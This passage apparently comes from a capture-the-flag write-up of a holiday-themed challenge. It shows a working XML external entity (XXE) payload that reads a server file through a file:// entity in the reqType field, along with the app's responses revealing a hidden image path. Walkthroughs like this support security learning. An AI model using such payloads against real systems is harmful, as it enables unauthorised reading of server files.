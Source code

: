 Obtained response. Obtained hint on `Request` Type.

```
{
  "appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.",
  "droppedOn": "none",
  "visit": "none"
}
```

Performed XXE injection on `reqType`.

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>
<root>
  <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>&xxe;</reqType>
</root>
```

Obtained response.

```
{
  "appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
}
```

Forward the newly modified XXE injection payload as the next http packet.
